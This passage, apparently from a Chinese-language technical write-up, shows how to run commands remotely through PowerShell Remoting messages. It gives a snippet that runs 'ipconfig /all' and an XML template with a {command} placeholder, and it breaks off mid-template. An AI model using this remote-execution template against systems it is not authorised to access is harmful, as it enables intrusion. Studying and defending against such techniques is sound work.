 依次执行以下命令：

```
ps = new-object System.Diagnostics.Process
$ps.StartInfo.Filename = "ipconfig"
$ps.StartInfo.Arguments = " /all"
$ps.StartInfo.RedirectStandardOutput = $True
$ps.StartInfo.UseShellExecute = $false
$ps.start()
[string] $Out = $ps.StandardOutput.ReadToEnd();
```

在返回数据中获得CommandId，并通过CommandId读取命令执行结果，这些命令的格式相同，发送数据的格式如下：

```
"""<Obj RefId="0">
    <MS>
        <Obj N="PowerShell" RefId="1">
            <MS>
                <Obj N="Cmds" RefId="2">
                    <TN RefId="0">
                        <T>System.Collections.Generic.List`1[[System.Management.Automation.PSObject, System.Management.Automation, Version=1.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]]</T>
                        <T>System.Object</T>
                    </TN>
                    <LST>
                        <Obj RefId="3">
                            <MS>
                                <S N="Cmd">{command}</S>
                                <B N="IsScript">true</B>
                                <Nil N="UseLocalScope" />
                                <Obj N="MergeMyResult" RefId="4">
                                    <TN RefId="1">
                                        <T>System.Management.Automation.Runspaces.PipelineResultTypes</T>
                                        <T>System.Enum</T>
                                        <T>System.ValueType</T>
                                        <T>System.Object</T>
                                    </TN>
                                    <ToString>Error</ToString>
                                    <I32>2</I32>
                                </Obj>
                                <Obj N="MergeToResult" RefId="5">
                                    <TNRef RefId="1" />
                                    <ToString>Output</ToString>
                                    <I32>1</I32>
                                </Obj>
                                <Obj N="MergePreviousResults" RefId="6">
                                    <TNRef RefId="1" />
                                    <ToString>None</ToString>
                                    <I32>0</I32>
                                </Obj>
                                <Obj N="Args" RefId="7">
                                    <TNRef RefId="0" />
                                    <LST />
                                </Obj>
                            </MS>
                        </Obj>
                        <Obj RefId="8">
                            <MS>
                                <S N="Cmd">Out-Default</S>
                                <B N="IsScript">false</B>
                                <B N="UseLocalScope">true</B>
                                <Obj N="MergeMyResult" RefId="9">
```